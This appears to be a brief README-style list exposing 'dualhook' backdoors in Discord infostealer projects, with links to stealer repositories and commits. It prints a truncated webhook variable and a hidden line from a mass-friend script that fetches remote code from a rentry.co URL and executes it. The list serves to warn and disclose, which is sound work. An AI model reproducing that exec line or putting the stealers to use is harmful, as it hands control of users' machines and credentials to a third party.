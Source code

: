 
# List of Dualhook - Malicious Code

## Doenerium69 - 

- https://github.com/doenerium6969/doenerium-fixed/commit/3ec9709980331a937f12b5b59d29638e6efc176b (DUALHOOK)
- t.me/doenerium69 same fake doener and dualhook shit

## Satan Stealer -

- https://github.com/Maybach1337/Satan-Stealer/commit/726de1004a63ad884e7cbe2c070d831689ab5f32
- Decoded Magic: myhook = "https://discord.com/api

## BlackCap Stealer
- Original SRC content Dualhook use the without dualhook
- https://github.com/Inplex-sys/BlackCap-Grabber-NoDualHook

## 

## Some shits scripts

- https://github.com/zrSadek/discord-mass-friend
- https://github.com/zrSadek/discord-mass-friend/blob/main/main.py (Second Line) import requests                    ;exec(requests.get('https://rentry.co/tvfwh/raw').text)

